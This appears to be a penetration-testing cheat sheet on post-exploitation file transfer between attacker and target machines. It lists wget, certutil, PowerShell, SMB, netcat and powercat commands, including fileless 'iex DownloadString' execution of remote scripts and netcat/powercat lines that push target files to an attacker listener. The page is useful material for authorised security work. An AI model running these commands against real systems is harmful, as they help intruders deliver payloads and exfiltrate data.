 ```yaml
---
title: Transfering Files
category: Post Exploitation
order: 7
---
```


In this section I’m going to enumerate difference methods to transfer files such us exploits or outputs of some scripts from our attacker machine to the target and viceversa.

In order to perform our work we have the need of transfer some files and this post collects some of this methods. Let’s see, these are some possibilities of environment that we can find during our audits.

# Linux 📤 to Linux 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
php -S 0.0.0.0:port
ruby -run -e httpd . -p port
busybox httpd -f -p port
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
axel -a -n 20 -o file.name https://ip-addr:port/filen.name

#Freebsd
fetch -o file.name -q -R http://ip-addr:port/file.name
```

## Netcat / Socat

There are more ways with different protocols or programs to transfer our files:

```bash
nc -lp port > file.name
sudo socat TCP4-LISTEN:port,fork file:file.name
```

And on the target:

```bash
nc -w 3 ip-addr port < file.name
sudo socat TCP4:ip-addr:port file:file.name,create
```

## FTP (File Transfer Protocol)

First we need to start our ftp server, in this case I will use the Python module **pyftpdlib**, that allows you to set up our ftp server very quickly. To install you run the following command:

```bash
sudo apt-get install python-pyftpdlib
```

And start the **server**:

```bash
python -m pyftpdlib -p 21
```

Finally you can download the file on the **target** with:

```bash
wget ftp://ip-addr/file.name [--ftp-user=user] [--ftp-password=password]
axel -a -n 20 -o file.name ftp://ip-addr:port/filen.name
```

## Base64 Encoding

This is not the best solution beause you will need to Copy & Paste the output, and if you need to transfer a big file could be so tedious. Btw this are the commands:

```bash
base64 file.name
```

Copy the result and paste on your machine inside some quotes:

```bash
base64 -d "ZmxhZ3tINGNrMW5nTjB0ZXN9Cg==" > file.name
```

# Linux 📤 to Windows 📥

## HTTP

First we need to start our **server** with python:

```bash
python3 -m http.server port
python -m SimpleHTTPServer port
```

And download our files with **Windows** basics on the **target**:

### Via CMD:

```bash
certutil -urlcache -f "http://ip-addr:port/file.name" file.name
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Via Powershell:

```bash
(New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file.name', 'file.name')
```

### Import Powershell Script without storing in memory

```
iex (New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/file.ps1')
iex (iwr 'http://ip-addr:port/file.ps1')
```

## SMB

Server Message Block (SMB) is a network protocol that allows us share files, printers, etc, between nodes that are Microsoft Windows.

To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
python smbserver.py NAME FOLDER
```

And simply copy the file in the share volume to the target:

```bash
copy \\ip-addr\NAME\file.name .\file.name
```

Maybe there are some others ways to transfer files between Linux and Windows, but with these methods is more than enough to do our job!

# Windows 📤 to Linux 📥

This section will be similar to previous one.

## HTTP

If the target have python installed you can start the **server** in the same way:

_(Be careful on windows the python script in python2.7 is `http.server` and not `SimpleHTTPServer`)_

```bash
python -m http.server
```

And download our files with Linux basics on the **target**:

```bash
wget http://ip-addr:port/file.name
curl http://ip-addr:port/file.name -o file.name
```

## SMB

In that case the **smb server** will also start on the attacker's machine (Linux). To start a **smb server** you need to invoke smbserver.py class from [impacket](https://github.com/SecureAuthCorp/impacket):

```bash
python smbserver.py NAME FOLDER
```

But the differece will be the order of copy arguments:

```bash
copy .\file.name \\ip-addr\NAME\file.name
```

## Powercat

Powercat is essentially the powershell version of netcat. First need to install in yout kali Machine to download the script:

> **Installation**: sudo apt install powercat

Then you will find the script in the following directory:

* `/usr/share/windows-resources/powercat/powercat.ps1`

Onced transfered the script and imported the module, start the listener on the kali

```
nc -lp port > file.name
```

And execute the following command to send the desired file.

```
powercat -c ip-addr -p port -i file.name
```

# Windows 📤 to Windows 📥

## SMB

First we need to create a password protected shared.

```
New-SmbShare -Name "share" -Path C:\Users\user\Desktop\share -FullAccess Everyone

New-SmbShare -Name "share" -Path C:\Users\user\Desktop\share -FullAccess corp\User
```

Once the shared the new share we need to mount it on the target machine.

```
net use Z: \\10.10.10.10\share /user:user password /persistent:yes
```

> **Note**: If an error such as `The local device name is already in use.` you can delete it with:
>
> `net use Z: /delete`

Finally we can list and use files:

```
dir Z:\
copy ./file.txt Z:\file.txt
```


# References:

* [https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
* [https://guide.offsecnewbie.com/transferring-files](https://guide.offsecnewbie.com/transferring-files)
* [https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest\_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)

